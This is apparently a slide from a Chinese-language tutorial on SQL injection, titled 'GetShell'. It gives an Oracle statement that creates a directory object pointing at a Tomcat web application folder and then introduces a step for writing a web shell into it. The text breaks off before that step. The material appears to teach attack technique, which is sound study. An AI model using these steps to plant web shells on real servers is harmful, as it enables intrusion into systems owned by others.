

# SQL注入
GetShell
执行以下SQL语句：
创建目录：
create or replace directory getshell_dir as 'E:/soft/apache-
tomcat-7.0.37/webapps/SqlInjection/';
写入shell到指定目录：注意directory在这里一定要大写: